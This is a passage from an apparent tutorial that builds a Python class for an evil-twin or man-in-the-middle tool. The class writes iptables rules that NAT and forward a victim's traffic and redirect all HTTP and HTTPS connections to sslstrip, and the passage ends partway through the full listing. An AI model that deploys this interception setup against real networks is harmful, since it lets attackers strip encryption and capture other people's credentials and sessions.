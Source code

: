 Our IPTables class is responsible for interacting with the iptables daemon. This means that if we instantiate multiple IPTables objects, they will implicitly have shared state: the state of the iptables daemon itself.  Since dealing with this can be messy, we're going to take the easy way out and only allow one instance of the IPTables class at any given time. We do this by giving the IPTables class an \_instance attribute, which is set to None by default. Instead of calling the constructor to instantiate new IPTables objects, we call a static method named get\_instance(). This static method first checks to see if \_instance is set to None. If \_instance is None, it means that we have not yet instantiated any IPTables objects, so we set \_instance to a new IPTables object.  We then return the sole IPTables instance stored in \_instance. From the calling function, this operation would look like this:

{% highlight python %}
iptables = IPTables.get_instance()
{% endhighlight %}

Next we give our IPtables class a method with which it can route traffic between our two
network interfaces while diverting all http(s) traffic to sslstrip.

{% highlight python %}

    def route_to_sslstrip(self, phys, upstream):

		bash_command('iptables --table nat --append POSTROUTING --out-interface %s -j MASQUERADE' % phys)
	        

		bash_command('iptables --append FORWARD --in-interface %s -j ACCEPT' % upstream)
	
	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000')
	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 10000')
	
	    bash_command('iptables -t nat -A POSTROUTING -j MASQUERADE')

{% endhighlight %}

Finally, we want to be able to restore iptables to its default state before and after we
use it. We do this by implementing the following method:

{% highlight python %}
    def reset(self):

        bash_command('iptables -P INPUT ACCEPT')
        bash_command('iptables -P FORWARD ACCEPT')
        bash_command('iptables -P OUTPUT ACCEPT')

        bash_command('iptables --flush')
        bash_command('iptables --flush -t nat')
{% endhighlight %}

Our completed IPTables class should look something like this:

{% highlight python %}
class IPTables(object):

    _instance = None
    
    def __init__(self):
        
        self.running = False
        self.reset()

    @staticmethod
    def get_instance():
        
        if IPTables._instance is None:
            IPTables._instance = IPTables()
        return IPTables._instance

    def route_to_sslstrip(self, phys, upstream):

	    bash_command('iptables --table nat --append POSTROUTING --out-interface %s -j MASQUERADE' % phys)
	    
	    bash_command('iptables --append FORWARD --in-interface %s -j ACCEPT' % upstream)
	